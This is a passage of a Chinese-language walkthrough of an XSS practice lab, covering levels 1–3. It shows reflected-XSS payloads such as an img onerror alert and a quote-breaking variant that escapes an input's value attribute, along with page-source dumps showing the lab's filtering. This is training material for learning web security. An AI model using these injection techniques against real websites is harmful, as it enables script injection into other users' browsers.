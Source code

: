 发现并没有对name参数进行过滤编码等，从而用最简单的payload可以弹窗

### Level 2

![][13]

如法炮制，利用第一关payload发现，并没有执行弹窗，于是查看网页源码：

```html
    <!DOCTYPE html><!--STATUS OK--><html>
	<head>
	<meta http-equiv="content-type" content="text/html;charset=utf-8">
	<script>
	window.alert = function()  
	{     
	confirm("完成的不错！");
	 window.location.href="level3.php?writing=wait"; 
	}
	</script>
	<title>欢迎来到level2</title>
	</head>
	<body>
	<h1 align=center>欢迎来到level2</h1>
	<h2 align=center>没有找到和&lt;img src=x onerror=alert(1)&gt;相关的结果.</h2><center>
	<form action=level2.php method=GET>
	<input name=keyword  value="<img src=x onerror=alert(1)>">
	<input type=submit name=submit value="搜索"/>
	</form>
	</center><center><img src=level2.png></center>
	<h3 align=center>payload的长度:28</h3></body>
	</html>
```

发现value值需要进行闭合操作

于是构造payload如下：">&lt;img src=x onerror=alert(1)&gt;<"  成功执行

![][15]


### Level 3

![][16]

输入构造的payload，查看网页源代码发现进行了html实体编码

```html
    <!DOCTYPE html><!--STATUS OK--><html>
	<head>
	<meta http-equiv="content-type" content="text/html;charset=utf-8">
	<script>
	window.alert = function()  
	{     
	confirm("完成的不错！");
	 window.location.href="level4.php?keyword=try harder!"; 
	}
	</script>
	<title>欢迎来到level3</title>
	</head>
	<body>
	<h1 align=center>欢迎来到level3</h1>
	<h2 align=center>没有找到和&lt;img src=x onerror=alert(1)&gt;相关的结果.</h2><center>
	<form action=level3.php method=GET>
	<input name=keyword  value='&lt;img src=x onerror=alert(1)&gt;'>
	<input type=submit name=submit value=搜索 />
	</form>
```

[1]: {{ '/web/resources/xss1.png' | prepend: site.baseurl  }}
[2]: {{ '/web/resources/xss2.png' | prepend: site.baseurl  }}
[3]: {{ '/web/resources/xss3.png' | prepend: site.baseurl  }}
[4]: {{ '/web/resources/xss4.png' | prepend: site.baseurl  }}
[5]: {{ '/web/resources/xss5.png' | prepend: site.baseurl  }}
[6]: {{ '/web/resources/xss6.png' | prepend: site.baseurl  }}
[7]: {{ '/web/resources/xss7.png' | prepend: site.baseurl  }}
[8]: {{ '/web/resources/xss8.png' | prepend: site.baseurl  }}
[9]: {{ '/web/resources/xss9.png' | prepend: site.baseurl  }}
[10]: {{ '/web/resources/xss10.png' | prepend: site.baseurl  }}
[11]: {{ '/web/resources/xss11.png' | prepend: site.baseurl  }}
[12]: {{ '/web/resources/xss12.png' | prepend: site.baseurl  }}
[13]: {{ '/web/resources/xss13.png' | prepend: site.baseurl  }}
[14]: {{ '/web/resources/xss14.png' | prepend: site.baseurl  }}
[15]: {{ '/web/resources/xss15.png' | prepend: site.baseurl  }}
[16]: {{ '/web/resources/xss16.png' | prepend: site.baseurl  }}
[17]: {{ '/web/resources/xss17.png' | prepend: site.baseurl  }}
[18]: {{ '/web/resources/xss18.png' | prepend: site.baseurl  }}
[19]: {{ '/web/resources/xss19.png' | prepend: site.baseurl  }}
[20]: {{ '/web/resources/xss20.png' | prepend: site.baseurl  }}
[21]: {{ '/web/resources/xss21.png' | prepend: site.baseurl  }}